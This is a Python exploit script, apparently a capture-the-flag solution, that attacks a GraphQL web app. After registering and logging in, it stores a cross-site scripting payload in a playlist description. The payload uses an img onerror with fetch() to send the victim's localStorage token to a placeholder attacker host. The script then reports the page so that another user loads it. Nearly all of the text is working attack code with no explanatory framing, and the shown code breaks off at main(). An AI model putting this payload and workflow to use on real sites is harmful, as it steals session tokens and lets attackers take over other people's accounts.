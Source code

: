 ```py
        "query":"mutation Register {\n  register(name: \""+ username +"\", password: \"" + password +"\")\n}"
    }

    res = sess.post(f"{host}/graphql",json=data,proxies=proxies,verify=False)
    if res.status_code == 200:
        print(f"[+] register success")
        return 
    
def login():
    data = {
        "operationName":"Login",
        "variables":{},
        "query":"mutation Login {\n  login(name: \"" + username + "\", password: \"" + password +"\")\n}"
    }
    res = sess.post(f"{host}/graphql",json=data,proxies=proxies,verify=False)
    if res.status_code == 200:
        print(f"[+] login success")
        token = json.loads(res.text)["data"]["login"]
        print(f"[+] get token: {token}")
        sess.headers.update({'authorization': token})

def create_playlist():
    payload = "<img src=x onerror=fetch(\\\"http://xxxxxxx:9999/cookie.php?c=\\\"+localStorage.getItem(\\\"token\\\"));>"

    data = {
        "operationName":"CreatePlaylist",
        "variables":{},
        "query":"mutation CreatePlaylist {\n  createPlaylist(\n    name: \"testPayload\"\n    description: \"" + payload + "\"\n  ) {\n    id\n    __typename\n  }\n}"
    }

    res = sess.post(f"{host}/graphql",json=data,proxies=proxies,verify=False)
    if res.status_code == 200:
        print(f"[+] send payload {payload}")

def get_selfid():
    data = {"operationName":"SelfQuery","variables":{},"query":"query SelfQuery {\n  self {\n    id\n    name\n    __typename\n  }\n}"}
    res = sess.post(f"{host}/graphql",json=data,proxies=proxies,verify=False)
    if res.status_code == 200:
        id = json.loads(res.text)["data"]["self"]["id"]

        print(f"[+] self id :{id}")
    return id

def report(id):
    payload = f"{host}/user/{id}"
    data = {
        "operationName":"Report",
        "variables":{},
        "query":"mutation Report {\n  report(url: \"" + payload + "\")\n}"
    }

    res = sess.post(f"{host}/graphql",json=data,proxies=proxies,verify=False) 
    if res.status_code == 200:
        print("[+] report done")

def main():
    register()
    login()
```